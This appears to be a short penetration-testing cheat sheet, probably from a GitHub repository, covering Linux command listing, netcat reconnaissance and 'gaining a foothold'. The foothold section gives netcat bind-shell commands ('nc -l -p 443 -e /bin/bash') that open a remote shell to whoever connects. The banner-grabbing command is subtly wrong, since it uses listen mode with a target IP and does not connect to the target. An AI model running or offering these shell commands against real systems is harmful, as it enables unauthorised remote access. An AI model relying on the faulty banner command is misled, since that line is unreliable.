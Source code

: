 # Linux  

## Check My IP `curl https://checkip.amazonaws.com`  


```sh
compgen -c # Will list all the commands you could run.
compgen -a # Will list all the aliases you could run.
compgen -b # Will list all the built-ins you could run.
compgen -k # Will list all the keywords you could run.
compgen -A function # Will list all the functions you could run.
```

# Reconnaissance  
## Netcat is not Ncat
Fun not-a-fact: Ncat comes from Nmap according to a post on a forum.
- Banner
```sh
# Print the banner of a webserver
nc -l $target_ip 80
```  
and then as a payload
```http
HEAD / HTTP/1.0
```

# Gaining a foothold
## Spawn a shell
```sh
port_number=$1
nc -l -p $port_number -e /bin/bash
```  
Spawn a shell: `nc -l -p 443 -e /bin/bash`  